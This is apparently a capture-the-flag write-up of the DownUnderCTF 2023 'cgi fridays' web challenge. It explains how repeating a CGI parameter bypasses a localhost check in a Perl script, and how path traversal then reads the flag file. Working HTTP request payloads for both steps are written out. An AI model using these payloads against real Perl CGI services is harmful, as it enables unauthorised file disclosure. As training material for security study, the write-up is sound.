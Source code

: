 # cgi fridays

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @Foo
- Contributor: @siunam
- 116 solves / 164 points
- Author: hashkitten
- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

1999 called, and they want their challenge back.

Author: hashkitten

[https://web-cgi-fridays-de834c0607c7.2023.ductf.dev](https://web-cgi-fridays-de834c0607c7.2023.ductf.dev)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230903212421.png)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230903212443.png)

In here, we can view a few of the web server's information, like it's kernel version, CPU info, etc:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230903213014.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/web/cgi-fridays/cgi-fridays.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/cgi-fridays)-[2023.09.03|21:31:02(HKT)]
└> file cgi-fridays.zip            
cgi-fridays.zip: Zip archive data, at least v2.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/cgi-fridays)-[2023.09.03|21:31:06(HKT)]
└> unzip cgi-fridays.zip 
Archive:  cgi-fridays.zip
   creating: src/cgi-bin/
  inflating: src/cgi-bin/route.pl    
  inflating: src/Dockerfile          
 extracting: src/flag.txt            
   creating: src/htdocs/
  inflating: src/htdocs/.htaccess    
  inflating: src/htdocs/index.shtml  
   creating: src/htdocs/pages/
  inflating: src/htdocs/pages/about.txt  
 extracting: src/htdocs/pages/denied.txt  
 extracting: src/htdocs/pages/home.txt  
```

**In `src/htdocs/index.shtml`, we can see that it uses Server-Side Include (SSI) to include the `/cgi-bin/route.pl` Perl script:**
```html
  <div class="content">
    <div class="status ok">
      <pre><!--#include virtual="/cgi-bin/route.pl?$QUERY_STRING" --></pre>
    </div>
  </div>
```

**Let's dig through that Perl script!**
```perl
#!/usr/bin/env perl

use strict;
use warnings;
use CGI::Minimal;

use constant HTDOCS => '/usr/local/apache2/htdocs';

sub read_file {
    my ($file_path) = @_;
    my $fh;

    local $/;
    open($fh, "<", $file_path) or return "read_file error: $!";
    my $content = <$fh>;
    close($fh);

    return $content;
}

sub route_request {
    my ($page, $remote_addr) = @_;

    if ($page =~ /^about$/) {
        return HTDOCS . '/pages/about.txt';
    }

    if ($page =~ /^version$/) {
        return '/proc/version';
    }

    if ($page =~ /^cpuinfo$/) {
        return HTDOCS . '/pages/denied.txt' unless $remote_addr eq '127.0.0.1';
        return '/proc/cpuinfo';
    }

    if ($page =~ /^stat|io|maps$/) {
        return HTDOCS . '/pages/denied.txt' unless $remote_addr eq '127.0.0.1';
        return "/proc/self/$page";
    }

    return HTDOCS . '/pages/home.txt';
}

sub escape_html {
    my ($text) = @_;

    $text =~ s/</&lt;/g;
    $text =~ s/>/&gt;/g;

    return $text;
}

my $q = CGI::Minimal->new;

print "Content-Type: text/html\r\n\r\n";

my $file_path = route_request($q->param('page'), $ENV{'REMOTE_ADDR'});
my $file_content = read_file($file_path);

print escape_html($file_content);
```

In here, when GET parameter `page` is given, it'll read the file content base on the file path:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230903224106.png)

Hmm... It seems like if we can view `stat`, `io`, or `maps` page, we can leverage the **path traversal vulnerability**.

But, how to bypass the `127.0.0.1` client IP?

After trying bunch of headers like `X-Forwarded-Host`, I can't bypass it.

## Exploitation

According to [the PDF from Black Hat Asia 2016](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf) that found by one of my teammates, it seems like ***Perl's `param()` has a fatal flaw.***

If you read the PDF a little bit, it basically says **`param()` may return a scalar or a list.**

**That being said, if we provide 2 `page` GET parameters:**
```
/cgi-bin/route.pl?page=version&page=about
```

**It'll return a list like this:**
```perl
("version", "about")
```

**That being said, we should be able to bypass the `127.0.0.1`!**
```http
GET /cgi-bin/route.pl?page=io&page=127.0.0.1 HTTP/2
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230904201207.png)

Nice!!

Then, we can now **leverage path traversal to read the flag file**!!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230904203033.png)

Oh crap... We have to match the regular expression pattern to get the flag, and **the directory must exist...**

Hmm... Let's **find a directory that contains `stat`, `io`, or `maps`.**

**To do so, I'll use `find` command in Linux:**
```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/cgi-fridays)-[2023.09.04|21:52:14(HKT)]
└> find / -type d -regex '.*/\(stat\|io\|maps\).*' 2>/dev/null
[...]
/sys/class/iommu
[...]
```

**Let's try that directory!**
```http
GET /cgi-bin/route.pl?page=../../sys/class/iommu/../../../flag.txt&page=127.0.0.1 HTTP/2
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230904215517.png)

Nice! It worked!

- **Flag: `DUCTF{s qqjust another perl hacker q and print ucfirst}`**

## Conclusion

What we've learned:

1. Exploiting Perl's `param()` flaw